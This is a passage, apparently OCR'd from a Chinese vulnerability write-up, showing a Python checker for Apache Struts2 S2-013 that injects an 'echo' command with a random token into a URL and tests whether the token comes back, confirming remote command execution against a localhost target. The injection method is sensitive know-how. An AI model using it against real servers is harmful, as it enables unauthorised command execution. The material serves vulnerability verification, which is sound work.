 ```python
        return temp                
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8'))
            check_res = requests.get(check_url)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_013 = S2_013_BaseVerify('http://localhost:8080/s2_013_war_exploded/HelloWorld.action')
    S2_013.run()
```

## 漏洞分析
